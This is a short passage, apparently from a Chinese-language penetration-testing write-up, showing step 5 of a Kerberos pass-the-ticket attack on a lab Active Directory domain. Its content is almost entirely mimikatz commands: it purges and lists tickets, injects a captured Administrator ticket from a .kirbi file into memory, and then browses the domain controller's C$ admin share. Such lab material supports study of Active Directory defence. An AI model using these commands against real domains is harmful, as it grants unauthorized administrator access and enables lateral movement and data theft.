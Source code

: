 [![](assets/1705982146-54c420d2478a26db791918a4636dbf81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222600-d592bc84-b79f-1.png)  
Step 5：使用 mimikatz 将这个票据导入内存中，然后访问域控

```bash
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```
